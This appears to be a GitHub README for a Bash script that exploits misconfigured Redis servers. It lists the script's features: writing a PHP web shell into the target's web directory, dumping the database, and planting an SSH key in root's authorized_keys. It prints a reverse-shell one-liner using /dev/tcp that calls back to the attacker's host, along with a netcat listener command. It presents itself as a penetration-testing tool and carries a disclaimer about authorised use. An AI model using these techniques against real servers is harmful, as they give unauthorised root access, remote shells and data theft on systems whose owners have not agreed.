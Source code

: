 ## Redis Exploit Automation Script

This script is designed for penetration testers and ethical hackers to exploit Redis misconfigurations. It automates tasks such as injecting custom web shells, dumping the Redis database, and injecting SSH keys for privilege escalation.

---

## Features
1. **Redis Connectivity Check**:
   - Verifies if the target Redis server is reachable.
   - Supports authentication if required.

2. **Custom Web Shell Injection**:
   - Prompts the user to input a custom shell command (e.g., a reverse shell payload).
   - Injects the command into a writable directory on the target.

3. **Database Dump**:
   - Dumps the Redis database to disk for offline analysis.

4. **SSH Key Injection**:
   - Injects an SSH public key for root access if the target allows configuration changes.

5. **Netcat Listener Validation**:
   - Ensures a listener (`nc -lvnp <port>`) is running before executing commands requiring it.

---

## Requirements
- **Dependencies**:
  - `redis-cli`: To interact with the Redis server.
  - `curl`: To fetch reverse shell payloads if needed.
  - `netstat`: To check for active Netcat listeners.

Install dependencies on Debian/Ubuntu:
```bash
sudo apt update
sudo apt install redis-tools curl net-tools
```

---

## Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/yourusername/redis-exploit-script.git
   cd redis-exploit-script
   ```

2. Make the script executable:
   ```bash
   chmod +x redis_exploit.sh
   ```

3. Run the script:
   ```bash
   ./redis_exploit.sh <host> <port> [password]
   ```
   - Replace `<host>` with the Redis server's IP.
   - Replace `<port>` with the Redis server's port (default: 6379).
   - If authentication is required, provide the `password`. Otherwise, omit it.

---

## Menu Options
1. **Inject a Custom Web Shell**:
   - Prompts the user to input a shell command.
   - Example: A reverse shell payload such as:
     ```bash
     bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1
     ```
   - Injects the payload into a writable web directory on the target.
   - Access the web shell via: `http://<host>/customshell.php`.

2. **Dump the Database**:
   - Executes `SAVE` to dump the database to disk.
   - Provides instructions to fetch the `dump.rdb` file for offline analysis.

3. **Inject an SSH Key**:
   - Prompts for your SSH public key.
   - Injects the key into `/root/.ssh/authorized_keys`.
   - Allows SSH access to the target as `root`.

---

## Examples
- **Run Script Without Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379
  ```

- **Run Script with Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379 mypassword
  ```

---

## Notes
- Ensure you have a Netcat listener running for reverse shells:
  ```bash
  nc -lvnp <your-port>
  ```

- The script will wait until the listener is active before proceeding with shell injection.

---

## Disclaimer
This script is intended for legal and ethical use only. Ensure you have explicit permission before testing or exploiting any Redis server. Misuse of this script may lead to legal consequences.

---

## Contribution
Feel free to open issues or submit pull requests to improve the script!